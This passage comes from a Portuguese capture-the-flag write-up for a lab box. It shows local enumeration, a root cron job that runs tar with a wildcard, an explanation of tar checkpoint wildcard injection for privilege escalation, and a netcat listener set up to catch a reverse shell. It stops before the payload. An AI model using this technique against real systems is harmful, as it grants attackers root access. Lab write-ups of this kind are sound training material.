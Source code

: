 ```bash
spooky@anonymous-playground:/home/spooky$ ls -la
ls -la
total 36
drwxr-xr-x 4 spooky spooky 4096 Jul 10  2020 .
drwxr-xr-x 5 root   root   4096 Jul  4  2020 ..
lrwxrwxrwx 1 root   root      9 Jul  4  2020 .bash_history -> /dev/null
-rw-r--r-- 1 spooky spooky  220 Jul  4  2020 .bash_logout
-rw-r--r-- 1 spooky spooky 3771 Jul  4  2020 .bashrc
-rwxrwxrwx 1 spooky magna     0 Jul 10  2020 .confrc
-r-------- 1 spooky spooky   33 Jul  4  2020 flag.txt
drwxrwxr-x 3 spooky spooky 4096 Jul  5  2020 .local
-rw-r--r-- 1 spooky spooky  807 Jul  4  2020 .profile
drwx------ 2 spooky spooky 4096 Jul  8  2020 .ssh
-rw-rw-r-- 1 spooky magna   535 Jul 10  2020 .webscript
```

A segunda `flag.txt` se encontra no diretório do usuário spooky.

### Escalação de privilégios

Logo no início da enumeração local, encontrei uma `cron` que roda como root a cada minuto.

```bas
spooky@anonymous-playground:/home/spooky$ cat /etc/crontab
cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
*/1 *   * * *   root    cd /home/spooky && tar -zcf /var/backups/spooky.tgz *
```
Esta cron, compacta todos os arquivos do diretório `/home/spooky` utilizando a ferramenta `tar`.

Existe uma técnica de escalação de privilégios através do tar com `Wildcard Injection`, acontece que é possível programar checkpoints na execução do tar, e informar qual a ação desse checkpoint.

Para isso, vamos fazer o wildcard injection no diretório de trabalho do tar, que no caso da cron, é `/home/spooky`.

Primeiro setamos um netcat para ouvir a conexão revarsa em nossa máquina.

```bash
┌──(hastur㉿hastur)-[~/Desktop]
└─$ nc -vlnp 8443
listening on [any] 8443 ...
```
